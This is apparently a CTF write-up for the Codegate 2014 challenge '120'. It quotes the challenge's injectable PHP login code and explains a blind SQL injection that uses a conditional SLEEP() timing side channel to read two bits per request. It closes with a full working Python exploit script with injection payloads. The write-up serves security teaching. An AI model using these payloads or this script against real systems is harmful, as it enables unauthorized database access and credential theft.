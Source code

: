 ```yaml
---
layout: post
title: "Codegate 2014 Quals: 120"
date: 2014-02-26 06:51:10 +0000
permalink: /2014/02/26/codegate-2014-quals-120/
category: Security
tags: CTF,Security,Shadow Cats
---
```

From Codegate 2014 quals comes "120".  Provided is a web interface with a single text box and a link to the source, reproduced below:

    #!php
    <?php
    session_start();
    
    $link = @mysql_connect('localhost', '', '');
    @mysql_select_db('', $link);
    
    function RandomString()
    {
      $filename = "smash.txt";
      $f = fopen($filename, "r");
      $len = filesize($filename);
      $contents = fread($f, $len);
      $randstring = '';
      while( strlen($randstring)<30 ){
        $t = $contents[rand(0, $len-1)];
        if(ctype_lower($t)){
        $randstring .= $t;
        }
      }
      return $randstring;
    }
    
    $max_times = 120;
    
    if ($_SESSION['cnt'] > $max_times){
      unset($_SESSION['cnt']);
    }
    
    if ( !isset($_SESSION['cnt'])){
      $_SESSION['cnt']=0;
      $_SESSION['password']=RandomString();
    
      $query = "delete from rms_120_pw where ip='$_SERVER[REMOTE_ADDR]'";
      @mysql_query($query);
    
      $query = "insert into rms_120_pw values('$_SERVER[REMOTE_ADDR]', ".
          "'$_SESSION[password]')";
      @mysql_query($query);
    }
    $left_count = $max_times-$_SESSION['cnt'];
    $_SESSION['cnt']++;
    
    if ( $_POST['password'] ){
      
      if (eregi("replace|load|information|union|select|from|where|" .
        "limit|offset|order|by|ip|\.|#|-|/|\*",$_POST['password'])){
        @mysql_close($link);
        exit("Wrong access");
      }
    
      $query = "select * from rms_120_pw where ".
        "(ip='$_SERVER[REMOTE_ADDR]') and " .
        "(password='$_POST[password]')";
      $q = @mysql_query($query);
      $res = @mysql_fetch_array($q);
      if($res['ip']==$_SERVER['REMOTE_ADDR']){
        @mysql_close($link);
        exit("True");
      }
      else{
        @mysql_close($link);
        exit("False");
      }
    }
    
    @mysql_close($link);
    ?>
    
    <head>
    <link rel="stylesheet" type="text/css" href="black.css">
    </head>
    
    <form method=post action=index.php>
      <h1> <?= $left_count ?> times left </h1>
      <div class="inset">
      <p>
        <label for="password">PASSWORD</label>
        <input type="password" name="password" id="password" >
      </p>
      </div>
      <p class="p-container">
        <span onclick=location.href="auth.php"> Auth </span>
        <input type="submit" value="Check">
      </p>
    </form>

The TL;DR of this code is that it uses your PHP session to store a 30 character lowercase letter token, and a counter of how many tries you've made against it.  You're given 120 total tries, then a new code will be generated, meaning any data you've been able to glean is useless.  For what it's worth, not all letters are equally likely -- the source of the data is Aleph One's "Smashing the Stack for Fun and Profit."  The code contains a blacklist to protect against certain types of SQL injection, but certainly doesn't cover all SQL injection possibilities.

So let's do some math.  Clearly, trying all possible passwords is out of the question at 26<sup>30</sup> possibilities.  With the SQL injection, we could try each character separately, using SUBSTR, but that still leaves us with 26*30 (780) possibilities, well more than the 120 we have to work with.  What about probabalistically trying the letters in the order of their frequency in the source document.  It turns out the letter distribution still requires ~8 tries per letter, meaning we can only get ~13 letters in our 120 tries, or would need 240 tries for the whole passphrase.

Let's consider that our character set is all lower case letters -- how much possible entropy is there?  Well, only the lowest 5 bits vary among lower case ASCII letters.  So, if we do a bitwise test, we only need 5*30 = 150 tests, but 150 is still too many.  If only we could test 2 bits at a time, then we'd only need (ideally) 75 tries.  How can we do that when the only signal we get back is a True/False value?  Well, we must consider side channels -- such as timing.  Merely measuring the timing of 2 bit comparisons is not significant enough to cover for network/server variance, but if we could conditionally introduce additional latency, we could use that as a signal.  Fortunately, SQL offers us a <a href='https://dev.mysql.com/doc/refman/5.0/en/miscellaneous-functions.html#function_sleep'><code>sleep()</code></a> function that we can use to introduce this latency and help us take measurements, but how to introduce it conditionally?

Note that the <code>sleep()</code> function returns a false-equivalent value when it completes.  Consider the statement <code>((A AND SLEEP(3)) OR B)</code>.  This is the truth table for the statement:

<table>
  <tr><th>A</th><th>B</th><th>Time</th><th>Output</th></tr>
  <tr><td>F</td><td>F</td><td>&lt;3 s</td><td>F</td></tr>
  <tr><td>T</td><td>F</td><td>&gt;3 s</td><td>F</td></tr>
  <tr><td>F</td><td>T</td><td>&lt;3 s</td><td>T</td></tr>
  <tr><td>T</td><td>T</td><td>&gt;3 s</td><td>T</td></tr>
</table>

As can be seen, the value of <code>A</code> controls the timing, and the value of <code>B</code> controls the output.  To read a single bit, we can use a construct like <code>ASCII(SUBSTR(password, N, 1)) &amp; 1 &lt;&lt; p</code>.  This checks if the p-th bit in the N-th byte is set.  Collectively, this gives us the ability to read 2 bits with a single request.  To break up the bits we need to read, it's most straightforward to read 1 bit by itself, then 2 pairs of 2 bits from each character.  Though suboptimal, it makes implementation straightforward, and still only requires 3 requests per byte, or 90 requests total.

Putting it all together, we get the following code.

    #!python
    import urllib
    import urllib2
    import cookielib
    import sys
    import time
    
    cj = cookielib.CookieJar()
    opener = urllib2.build_opener(urllib2.HTTPCookieProcessor(cj))
    
    cookies_printed = False
    
    def inject(pw):
      global cookies_printed
      data = urllib.urlencode({'password': pw})
      req = opener.open(
          'http://58.229.183.24/5a520b6b783866fd93f9dcdaf753af08/'
          'index.php', data)
      if not cookies_printed:
        for c in cj:
          print c
        cookies_printed = True
      return req.read().strip() == 'True'
    
    def stdinject(cond):
      return inject("' OR %s OR 'x'='" % cond)
    
    def indexmatch(pos, val):
      # Convert 0-indexed to 1-indexed
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      return stdinject(substr + ("='%s'" % val))
    
    def twobitchar(pos):
      bits = [0]*5
      substr = 'SUBSTRING(password, %d, 1)' % (pos+1)
      # test top most bit
      if stdinject('ASCII(%s) & %d' % (substr, 1 << 4)):
        bits[4] = 1
    
      def twobittest(lower):
        # (bit(1) and sleep(3)) or bit(2)
        # time indicate bit(1)
        # truth indicates bit(2)
        sleep_time = 3
        start_time = time.time()
        ascii_str = 'ASCII(%s)' % substr
        if stdinject('((%s & %d AND SLEEP(%d)) OR %s & %d)' % (
          ascii_str, 1 << (lower+1), sleep_time, ascii_str, 1 << lower)):
          bits[lower] = 1
        stop_time = time.time()
        if (stop_time - start_time) > sleep_time:
          bits[lower+1] = 1
    
      # test next 2 bits
      twobittest(2)
      # test last 2 bits
      twobittest(0)
    
      # reassemble bits
      return chr(int('0b11' + ''.join('%d' % b for b in reversed(bits)),2))
    
    def runtwobit():
      passwd = ''
      for c in xrange(30):
        passwd += twobitchar(c)
        print '[%d] %s' % (c, passwd[-1])
      if inject(passwd):
        print passwd
      else:
        print 'Validation failed!'
    
    runtwobit()

Note the need for special treatment for the HTTP requests -- since PHP sessions are in use, we need to provide a CookieJar and output the cookie value so we can use both the session and the password to exchange for our flag and get our points.
